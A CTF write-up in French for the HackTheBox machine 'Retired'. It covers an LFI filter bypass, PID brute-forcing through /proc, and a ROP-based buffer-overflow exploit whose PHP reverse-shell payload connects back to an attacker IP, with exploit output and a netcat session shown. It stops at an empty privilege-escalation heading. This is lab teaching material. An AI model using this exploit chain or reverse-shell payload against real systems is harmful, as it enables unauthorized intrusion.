






# RETIRED HACKTHEBOX



# ENUMERATION

## NMAP

Dans un premier temps, on va utiliser nmap afin de connaitre les ports ouverts sur la machine.



on peut donc voir 2 ports ouverts, un serveur ssh sur le port 22 et un serveur web sur le port 80

## DIRSEARCH



on se rend donc sur le site web et on lance un dirsearch afin de voir si l'ont ne trouve pas des fichiers/dossiers intéressant.

# INITIAL ACCESS

## WEB

En se rendant sur le site web on se rend compte directement qu'il y a un parametre get page qui a pour valeur default.html. Je pense donc directement à une lfi https://brightsec.com/blog/local-file-inclusion-lfi/


après quelques tests je trouve le code source de mon index.php en utilisant un filtre php.

http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=index.php

```php
<?php
function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
} else {
    header('Location: /index.php?page=default.html');
}

readfile($page);
?>
```

On peut donc voir ici 2 filtre à bypass afin de mener à bien notre lfi.

Pour passer la fonction sanitize_input je vous propose cette solution : "..../.././/" qui à la sortie de la fonction sanitize_input deviendra "../"

et ensuite le preg_match() veut que notre fichier commence par des une lettre entre a-z (enfin je crois j'connais pas trop les regex) donc grace à notre énumération ou au code source de la page on voit un dossier js alors on va juste faire page=js/..../.././/

Parfait on a veski le filtre comme il faut !

maintenant il s'agit de l'exploiter ...

## WEB EXPLOITATION

Là ça a été assez compliqué, j'ai passé plusieurs heures à essayer de reverse shell par les logs, env, prod/pid/fd enfin bref j'ai essayé toutes les techniques possible et imaginable afin de reverse shell comme un débile. Et au bout d'un moment, un éclair de génie ! Je me suis dit je vais check à nouveau le code source de mon index.php ... Et je vois qu'il utilise la fonction readfile !
Après une recherche google :  https://stackoverflow.com/questions/36494361/do-file-get-contents-and-readfile-execute-php-code

**readfile do not execute code.** 

J'avais envie de casser mon écran, dieu merci je suis une personne calme.
J'ai décidé de faire une pause et d'aller à la salle de sport ce qui m'a permis de réfléchir ... ET LA ECLAIR DE GENIE !
Je me souviens avoir vu dans les logs un fichier php activate_license.php (peut être qu'il fallait le trouver en énumérant les fichiers au début mais mes worldlists l'ont pas eu.)
Je décide donc de récuperer son code source avec mon filtre php utilisé plus haut pour récuperer index.php

```php
<?php
if(isset($_FILES['licensefile'])) {
    $license      = file_get_contents($_FILES['licensefile']['tmp_name']);
    $license_size = $_FILES['licensefile']['size'];

    $socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
    if (!$socket) { echo "error socket_create()\n"; }

    if (!socket_connect($socket, '127.0.0.1', 1337)) {
        echo "error socket_connect()" . socket_strerror(socket_last_error()) . "\n";
    }

    socket_write($socket, pack("N", $license_size));
    socket_write($socket, $license);

    socket_shutdown($socket);
    socket_close($socket);
}
?>
```

à partir de là je commence à chercher toute sortes d'exploit pour les sockets ou quoi enfin bref des betises.
Et à ce moment là, le fait d'avoir galéré à vouloir reverse-shell me fait avoir une idée. J'ai beaucoup touché au /proc de en essayant de reverse shell et j'me dis "et si je bruteforçai les pid" !
A ce moment là j'étais desespéré vraiment j'avais 0 espoirs dans ce que je faisais. Je fais donc un ptit script python pour ça :

```py
import requests

def brute_pid():
	pid_max = int(requests.get("http://10.10.11.154/index.php?page=js/..../.././/..../.././/..../.././/..../.././/..../.././/proc/sys/kernel/pid_max").text)  # récuperer le pid maximum
	print(f"[+] pid max is {pid_max}")
	for pid in range(0, pid_max):
		r = requests.get(f"http://10.10.11.154/index.php?page=js/..../.././/..../.././/..../.././/..../.././/..../.././/proc/{pid}/cmdline")
		if r.text:
			print(f"[+] process found : {pid} ->" + r.text.replace('\x00', ' '))

if __name__ == "__main__":
	try:
		brute_pid()
	except KeyboardInterrupt:
		exit()
```

Ici on va donc faire une première requete afin de récuperer le pid maximum, et ensuite on va les bruteforce un part un et récuperer le contenu de /proc/pid/cmdline qui contient les arguments passé en ligne de commande pour lancer le process.

```
root@debian:~# python3 brute_pid.py 
[+] pid max is 4194304
[+] process found : 399 -> /usr/bin/activate_license 1337
[+] process found : 573 -> nginx: worker process
[+] process found : 574 -> nginx: worker process
```

Super intéressant ! On peut donc récuperer notre executable grâce à notre lfi

```wget http://10.10.11.154/index.php?page=js/..../.././/..../.././/..../.././/..../.././/..../.././/usr/bin/activate_license```

## REVERSE

Je commence donc à reverse le binaire, et j'me dis "ahaha imagine c'est du pwn"


Je continue donc de reverse, je trouve le nom d'une base de donnée sqlite dans laquelle sont stocké les clés d'activation.



après avoir bruteforce un peu les répertoires je trouve la base de donnée je l'a download et je trouve absolument rien à l'intérieur.

Donc dépité je reviens à mon binaire.

On voit qu'en premier quand le socket reçoit la connexion il récupère les 4 premiers octets, qui sont la taille de notre license envoyé par la page php 

```php
$license_size = $_FILES['licensefile']['size'];
$license      = file_get_contents($_FILES['licensefile']['tmp_name']);
[...]
socket_write($socket, pack("N", $license_size));
socket_write($socket, $license);
```



et ensuite il va récuperer dans un buffer de 512 char notre license avant de l'envoyer dans la base de donnée.
sauf que, il récupère $msglen char de notre license, on va donc pour dépasser de notre buffer et écrire dans la mémoire. 

On a donc un buffer overflow !



J'ai trouvé quelque chose d'intéressant !


C'est du pwn !


## PWN

je me met donc à exploiter ça en local, je réussi assez facilement à écraser l'addresse de retour de ma fonction activate_license mais ensuite ça deviens compliqué !

cette partie fut très très longue, surtout pour moi qui fait très peu de pwn.

### 1er soucis

lorsque notre binaire reçoit une connexion, il créé un fork (pas sur que ça se dise comme ça mais en gros il fait ça : https://www.geeksforgeeks.org/fork-system-call/) donc chiant à debug 
### solution
 gdb nous permet de pouvoir soit follow les fork créé ou follow le process parent ``set follow-fork-mode child/parent``

### 2ème soucis
grâce à notre lfi (en regardant le contenu de /proc/sys/kernel/randomize_va_space) on a pu verifier si l'aslr était activé et malheuresment elle l'était https://fr.wikipedia.org/wiki/Address_space_layout_randomization
### solution
encore notre lfi, on peut accéder à /proc/pid/maps qui va nous montrer comment est réparti la mémoire du process (pas convaincu que ça se dise comme ça encore une fois mais en bref on connais les addresses)

```
56140fd23000-56140fd24000 r--p 00000000 08:01 2408 /usr/bin/activate_license
56140fd24000-56140fd25000 r-xp 00001000 08:01 2408 /usr/bin/activate_license
56140fd25000-56140fd26000 r--p 00002000 08:01 2408 /usr/bin/activate_license
56140fd26000-56140fd27000 r--p 00002000 08:01 2408 /usr/bin/activate_license
56140fd27000-56140fd28000 rw-p 00003000 08:01 2408 /usr/bin/activate_license
561410fbf000-561410fe0000 rw-p 00000000 00:00 0 [heap] 
7fa18acaf000-7fa18acb1000 rw-p 00000000 00:00 0 
7fa18acb1000-7fa18acb2000 r--p 00000000 08:01 3635 /usr/lib/x86_64-linux-gnu/libdl-2.31.so 
7fa18acb2000-7fa18acb4000 r-xp 00001000 08:01 3635 /usr/lib/x86_64-linux-gnu/libdl-2.31.so 
7fa18acb4000-7fa18acb5000 r--p 00003000 08:01 3635 /usr/lib/x86_64-linux-gnu/libdl-2.31.so 
7fa18acb5000-7fa18acb6000 r--p 00003000 08:01 3635 /usr/lib/x86_64-linux-gnu/libdl-2.31.so 
[...]
7fa18ae1c000-7fa18ae1d000 rw-p 00142000 08:01 3636 /usr/lib/x86_64-linux-gnu/libm-2.31.so 
7fa18ae1d000-7fa18ae42000 r--p 00000000 08:01 3634 /usr/lib/x86_64-linux-gnu/libc-2.31.so 
7fa18ae42000-7fa18af8d000 r-xp 00025000 08:01 3634 /usr/lib/x86_64-linux-gnu/libc-2.31.so 
7fa18af8d000-7fa18afd7000 r--p 00170000 08:01 3634 /usr/lib/x86_64-linux-gnu/libc-2.31.so 
7fa18afd7000-7fa18afd8000 ---p 001ba000 08:01 3634 /usr/lib/x86_64-linux-gnu/libc-2.31.so 
7fa18afd8000-7fa18afdb000 r--p 001ba000 08:01 3634 /usr/lib/x86_64-linux-gnu/libc-2.31.so 
7fa18afdb000-7fa18afde000 rw-p 001bd000 08:01 3634 /usr/lib/x86_64-linux-gnu/libc-2.31.so 
7fa18afde000-7fa18afe2000 rw-p 00000000 00:00 0 
7fa18afe2000-7fa18aff2000 r--p 00000000 08:01 5321 /usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6 
[...]
7fa18b157000-7fa18b158000 rw-p 0002a000 08:01 3630 /usr/lib/x86_64-linux-gnu/ld-2.31.so 
7fa18b158000-7fa18b159000 rw-p 00000000 00:00 0 7ffc1c50c000-7ffc1c52d000 rw-p 00000000 00:00 0 [stack] 
7ffc1c5d1000-7ffc1c5d5000 r--p 00000000 00:00 0 [vvar] 
7ffc1c5d5000-7ffc1c5d7000 r-xp 00000000 00:00 0 [vdso] 
```

### 3ème soucis
NX et PIE d'activé comme sécuritée sur le binaire
### solution
ropchain ou ret2libc 
- https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/rop-chaining-return-oriented-programming
- https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc
(super blog)

### 4ème soucis
je trouve pas les gadgets nécessaire pour ropchain afin de mener à bien notre ret2libc
### solution
trouver nos gadgets dans la libc

### exploit

donc voici ce que j'ai trouvé pour mener à bien cette exploitation :

```
libc :
	mov qword ptr [rsi], rdi ; ret
	function system()

binary :
	pop rdi ; ret
	pop rsi; pop r15; ret;
```

grâce à ça on va pouvoir copier notre payload dans une section où l'ont peu écrire et le retrouver facilement pour ma part j'ai choisis .data

pour ça j'utilse :

```
pop rdi; ret                    ---> on met notre payload dans rdi
paylaod
pop rsi; pop r15; ret;          ---> on met l'addresse de .data dans rsi
address of .data
NULL
mov qword ptr [rsi], rdi; ret   ---> on déplace notre payload à l'addresse de .data
pop rdi; ret                    ---> on met dans rdi l'addresse de notre payload donc .data 
                                ---> voir https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame
address of .data
call system
```

Vu comme ça c'est assez rapide mais j'y est passé énormément de temps

```py
import struct
import requests

def get_pid():
	pid_max = int(requests.get("http://10.10.11.154/index.php?page=js/..../.././/..../.././/..../.././/..../.././/..../.././/proc/sys/kernel/pid_max").text)
	print(f"[+] pid max is {pid_max}")
	for pid in range(0, pid_max):
		r = requests.get(f"http://10.10.11.154/index.php?page=js/..../.././/..../.././/..../.././/..../.././/..../.././/proc/{pid}/cmdline")
		if r.text.encode() == b'/usr/bin/activate_license\x001337\x00':
			print(f"[+] pid found : {pid}")
			return pid

def get_base_address(pid):
	base = requests.get(f"http://10.10.11.154/index.php?page=js/..../.././/..../.././/..../.././/..../.././/..../.././/proc/{pid}/maps").text.split("-")[0]
	print(f"[+] base found : 0x{base}")
	return int(base, base=16)

def get_libc_base(pid):
	base = requests.get(f"http://10.10.11.154/index.php?page=js/..../.././/..../.././/..../.././/..../.././/..../.././/proc/{pid}/maps").text.split("\n")[23][:12]
	print(f"[+] libc found : 0x{base}")
	return int(base, base=16)

pid = get_pid()
base_address = get_base_address(pid)
libc_base    = get_libc_base(pid)


payload = b"php -r '$sock=fsockopen(\"10.10.14.59\",4000);exec(\"sh <&3 >&3 2>&3\");'"
n = 8
command = [payload[i:i+n] for i in range(0, len(payload), n)]
command[-1] = command[-1] + b"\x00" * (8 - len(command[-1]))

print("[~] building payload ...")
payload = b"a" * (512 + 8)                                      # padding : buffer[512] + 8

for i in range(len(command)):
	payload += struct.pack("<Q", base_address + 0x000000000000181b)   # pop rdi ; ret
	payload += command[i]                                             # payload
	payload += struct.pack("<Q", base_address + 0x0000000000001819)   # pop rsi; pop r15; ret;
	payload += struct.pack("<Q", base_address + 0x00004000 + (8 * i)) # address of .data
	payload += struct.pack("<Q", 0x0)                                 # NULL
	payload += struct.pack("<Q", libc_base + 0x0000000000118b7d)      # mov qword ptr [rsi], rdi ; ret


payload += struct.pack("<Q", base_address + 0x000000000000181b) # pop rdi ; ret
payload += struct.pack("<Q", base_address + 0x00004000)         # address of .data = payload

payload += struct.pack("<Q", libc_base + 0x48e50)               # address of system in the libc
payload += struct.pack("<Q", 0x00000000)
print("[+] payload built ! ")

print("[~] sending payload")
r = requests.post("http://10.10.11.154/activate_license.php", files={'licensefile' : ('payload', payload)} )
print("[+] paylaod sent !")
```

voilà mon exploit afin d'avoir un reverse shell.

on le lance :

```
root@debian:~# python3 exploit.py
[+] pid max is 4194304
[+] pid found : 399
[+] base found : 0x56140fd23000
[+] libc found : 0x7fa18ae1d000
[~] building payload ...
[+] payload built ! 
[~] sending payload
[+] paylaod sent !
```

et on reçoit bien notre reverse shell !

```
root@debian:~# nc -nlvp 4000
Listening on 0.0.0.0 4000
Connection received on 10.10.11.154 52388
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@retired:/var/www$ whoami
whoami
www-data
www-data@retired:/var/www$ 
```

A partir de là on va pouvoir privesc.

# PRIVILEGE ESCALATION
